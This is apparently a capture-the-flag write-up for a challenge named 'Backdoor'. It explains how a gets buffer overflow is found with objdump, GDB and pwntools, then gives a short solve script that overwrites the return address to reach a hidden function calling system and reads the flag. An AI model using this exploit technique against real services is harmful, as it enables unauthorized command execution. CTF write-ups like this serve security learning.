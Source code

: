 # Backdoor
Solves: 5

## Description
Someone told me that this program contains a backdoor, but I can't seem to find out how to trigger it... Can you maybe help me?
```
nc backdoor.heltsikker.no 9002
```

## Solution
Looking at `objdump -D -M intel` there are two interesting things to note:
 -  The function named `backdoor` at address `0x08049236` that calls `system`
 -  The insecure use of `gets` in `welcome`

So the action plan then is:
 - Use `gets` to overwrite the return pointer in `welcome`
 - Set the return pointer to the address of `backdoor`
 - Profit!

To do this we need to know at which offset from the start of the array `gets` reads into the return pointer is located, one way to find this is using GDB and the pwntools function `cyclic`:
 - Fire up GDB
 - Set a breakpoint right after the call to `gets`
    - `disass welcome`
    - `b *0x08049299`
 - Run the program with the cyclic input piped to the program
    - `r < <(pwn cyclic)`
 - Read the return pointer
    - `info frame`
    - Which gives `eip = 0x6161616c`

With pwntools the offset can now be found with `cyclic_find(0x6161616c)` which gives an offset of 48. The payload then is 48 bytes of padding and then the address of `backdoor`, this can easily be accomplished with the `fit` and `p32` functions in pwntools and gives the solve script:
```python
from pwn import *
r = remote("backdoor.heltsikker.no", 9002)
r.sendline(fit({cyclic_find(0x6161616c) : p32(0x08049236)}))
r.sendline("cat flag.txt")
print(r.recvline_startswith("HSCTF").decode("UTF-8"))
```

And that gives the flag:
```
HSCTF{if_only_every_shell_was_this_easy_to_pop}
```